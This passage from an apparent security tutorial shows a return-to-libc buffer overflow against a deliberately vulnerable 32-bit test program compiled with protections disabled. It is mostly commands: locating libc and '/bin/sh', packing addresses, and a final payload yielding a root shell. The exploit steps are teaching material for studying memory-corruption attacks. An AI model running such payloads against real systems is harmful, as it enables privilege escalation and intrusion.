 ~~~shell
gcc -g -Wall -mpreferred-stack-boundary=2 -fno-stack-protector -m32 -I. -z execstack -o bin/sof src/sof.c
~~~

~~~shell
bin/sof $(perl -e 'print "A" x 260')
[1]    6406 segmentation fault (core dumped)  bin/sof $(perl -e 'print "A" x 260')
~~~

~~~shell
ldd bin/sof
	linux-gate.so.1 (0xf7fd2000)
	libc.so.6 => /lib/libc.so.6 (0xf7deb000)
	/lib/ld-linux.so.2 (0xf7fd4000)
~~~

~~~shell
strings -a -t x /lib/libc.so.6 | grep '/bin/sh'   
 16a23e /bin/sh
~~~

~~~shell
printf "0x%x\n" $((0xf7deb000 + 0x16a23e))  
0xf7f5523e
~~~

~~~shell
raddr -a 0xf7e2c540
\x40\xc5\xe2\xf7
~~~

~~~shell
raddr -a 0xf7f5523e
\x3e\x52\xf5\xf7
~~~

~~~shell
raddr -a 0xf7e1e8f0 
\xf0\xe8\xe1\xf7
~~~

~~~shell
bin/sof $(perl -e 'print "A" x 260 . "\x40\xc5\xe2\xf7" . "\xf0\xe8\xe1\xf7" . "\x3e\x52\xf5\xf7"')
~~~

Then /bin/sh is called and 

~~~shell
@sh-4.4# whoami
root
~~~

It is done.

Reference:

https://www.linkedin.com/pulse/exploiting-stack-buffer-overflow-return-to-libc-intro-hildebrand/

https://en.wikipedia.org/wiki/Return-to-libc_attack

### 2. Meltdown and Spectre
